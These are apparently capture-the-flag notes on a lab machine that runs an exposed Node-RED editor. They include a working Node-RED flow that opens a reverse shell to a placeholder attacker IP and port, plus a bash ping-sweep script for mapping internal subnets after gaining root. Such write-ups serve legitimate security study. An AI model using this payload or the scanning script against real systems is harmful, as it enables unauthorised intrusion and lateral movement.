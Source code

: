 Using [[nmap]] we found a [[Node.js]] application running on [[port 1880]] and try view on the browser we got this:
![[Pasted image 20250418040045.png]]

If `Cannot GET /` maybe trying with `POST` method we catch something.

```bash
curl -s -X POST http://10.10.10.94:1880 | jq
```

> [[jq]] is for parse the [[json]] output.

and we have a response

![[Pasted image 20250418040315.png]]
follow the path field we navigate to `http://10.10.10.94:1880/red/4f13544b17f787be7f0af27a35fb8d91`

![[Pasted image 20250418040555.png]]
and get a [[Node Red]] web.

We can found a reverse shell for `Node red` searching on the web.

```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"<ATTACKER_IP>","port":"<ATTACKER_PORT>","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]
```

With this we gain access to `Nodered machine`

Once inside we are `root` and we have access to those subred: `172.19.0.3` `172.18.0.2`
![[Pasted image 20250418143620.png]]
let's enumerate all actives in subred `172.19.0.0/24` `172.18.0.0/24` using [[Bash scripting]]

```bash
#!/bin/bash

networks_subred=(172.18.0. 172.19.0.)

function ctrl_c() {
  echo -e "\n\t [!] Exiting."
  exit 1
}

trap ctrl_c INT

for subred in ${networks_subred[@]}; do
  for i in $(seq 0 255); do
    host=$subred$i
    timeout 1 ping -c 1 $host >/dev/null 2>&1 && echo -e "[+] HOST $host ACTIVE" &
  done
  wait
done
wait

```
